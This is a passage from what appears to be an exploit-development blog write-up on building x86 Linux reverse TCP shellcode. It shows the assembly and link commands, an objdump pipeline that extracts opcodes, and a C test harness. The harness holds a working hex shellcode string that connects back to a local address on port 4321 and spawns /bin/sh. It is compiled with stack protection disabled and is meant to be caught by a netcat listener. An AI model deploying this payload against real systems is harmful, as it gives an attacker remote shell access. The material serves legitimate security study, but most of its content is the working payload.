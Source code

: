 ```nasm
```
Assembling and linking the asssembly code.
```
nasm -f elf32 shell-rev-tcp.nasm -o shell-rev-tcp.o
ld shell-rev-tcp.o -o shell-rev-tcp-4321
```
Dumping the shellcode.
```
objdump -d ./shell-rev-tcp-4321|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
![Assemble Link Dump-Shellcode](/assets/asn-2-assembling-linking.PNG)
Insert the shellcode in shellcode.c template.
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x50\xb0\x66\x6a\x01\x5b\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x50\x5e\xb0\x66\x5b\x68\x7f\x01\x01\x01\x66\x68\x10\xe1\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\x43\xcd\x80\x87\xde\x31\xc0\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xcd\x80";
main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
Compile shellcode.c:
```
gcc shellcode.c -o shell-rev-4321 -fno-stack-protector -z execstack
```
Now, its time to test our reverse shell. Lets setup a  netcat listener on port 4321 on our local machine and execute the reverse shell from another terminal.